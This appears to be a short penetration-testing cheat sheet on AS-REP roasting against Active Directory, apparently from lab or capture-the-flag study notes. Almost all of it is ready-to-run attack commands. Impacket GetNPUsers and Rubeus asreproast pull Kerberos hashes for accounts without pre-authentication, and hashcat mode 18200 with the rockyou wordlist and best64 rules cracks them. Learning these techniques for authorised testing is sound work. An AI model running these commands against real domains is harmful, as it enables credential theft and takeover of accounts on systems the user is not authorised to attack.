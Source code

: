 ## We got Users but no Pass?

### Links

- [GitHub Rubeus](https://github.com/GhostPack/Rubeus)
### ASREP Roasting Attack

```
impacket-GetNPUsers htb.local/ -usersfile user.txt -format hashcat -outputfile hashes.domain.txt

.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
```

```

impacket-GetNPUsers -dc-ip 192.168.205.70  -request -outputfile hashes.asreproast corp.com/pete
hashcat --help | grep -i "Kerberos"

sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

cd C:\Tools
.\Rubeus.exe asreproast /nowrap

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```




